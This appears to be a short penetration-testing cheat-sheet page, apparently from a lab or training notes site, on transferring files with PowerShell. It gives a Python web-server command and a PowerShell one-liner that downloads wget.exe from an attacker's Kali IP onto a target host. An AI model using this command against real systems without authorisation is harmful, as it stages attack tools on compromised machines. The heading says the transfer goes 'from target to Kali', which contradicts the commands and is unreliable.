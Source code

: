 ```yaml
---
title: Powershell File Transfer
layout: default
nav_order: 6
parent: File Transfers

---
```


# Powershell
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}

---

### Powershell File Transfers
Transfer file from target to Kali machine:

Setup webserver on Kali machine:
```bash
python3 -m http.server 80
```

Grab download from target:
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```

*NOTE: Change the `http://10.11.0.4/wget.exe` parameter with desired IP address of the Kali machine and the destination parameter `C:\Users\offsec\Desktop\wget.exe` with desired destination*